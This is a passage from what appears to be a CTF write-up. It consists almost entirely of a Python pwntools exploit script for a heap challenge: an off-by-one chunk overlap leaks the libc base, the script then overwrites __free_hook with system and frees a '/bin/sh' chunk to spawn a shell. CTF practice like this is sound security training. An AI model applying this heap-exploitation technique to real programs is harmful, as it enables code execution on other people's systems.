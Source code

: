 ```py
    p.recvuntil('idx:')
    p.sendline(str(idx))

def Hint(content):
    p.recvuntil('> ')
    p.sendline('5')
    p.recvuntil("Because I know you are 666!\n")
    p.send(content)


def exp():
    #leak libc
    Add(0,0x238,'0'*0x238)
    Add(1,0x238,'1\n')
    Add(2,0x233,p64(0x21)*17+'\n')#0x240
    Add(3,0x233,p64(0x21)*17+'\n')#0x240
    Add(4,0x233,p64(0x21)*17+'\n')#0x240
    Add(5,0x233,p64(0x21)*17+'\n')#0x240
    Add(6,0x233,p64(0x21)*17+'\n')#0x240
    Add(7,0x233,p64(0x21)*17+'\n')#0x240
    Add(8,0x233,p64(0x21)*17+'\n')#0x240


    Edit(0,'/bin/sh\x00'+'0'*0x230+'\x01\x09')

    Delete(1)#1+2+3+4
    Add(1,0x230,'1\n')#1

    Show(2)


    libc_base = u64(p.recv(8)) - 0x60 - 0x10 - libc.sym['__malloc_hook']
    log.success("libc base => " + hex(libc_base))
    #gdb.attach(p,'b* 0x0000555555554000+0x14e5')
    libc.address = libc_base
    free_hook = libc.sym['__free_hook']
    #get shell
    Delete(3)

    Add(3,0x6b0,'a'*0x230+p64(0)+p64(0x241)+p64(free_hook)+'\n')

    Hint('a'*8)
    Hint(p64(libc.sym['system']))
    Delete(0)
    #gdb.attach(p)
    p.interactive()

exp()
```

### pwn3
